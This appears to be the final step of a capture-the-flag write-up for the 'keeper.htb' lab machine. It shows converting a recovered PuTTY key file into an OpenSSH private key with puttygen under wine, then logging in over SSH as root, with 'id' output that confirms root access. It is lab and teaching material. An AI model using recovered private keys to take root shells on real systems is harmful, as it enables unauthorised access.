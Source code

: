 This is a putty file.

If required install the latest version of `puttygen` :

```shell
apt install wine
wget https://the.earth.li/~sgtatham/putty/latest/w64/puttygen.exe
wine puttygen.exe
```

Use puttygen to convert this file into an openssh private key :

```shell
puttygen
```

File --> Load private key

![](assets/rsa_key.png)

Then Conversions -->Export openSSH key

Save as "root.key"

Then get a shell as root :

```shell
chmod 600 root.key # protect key (required by ssh client)
ssh root@keeper.htb -i root.key

root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
```
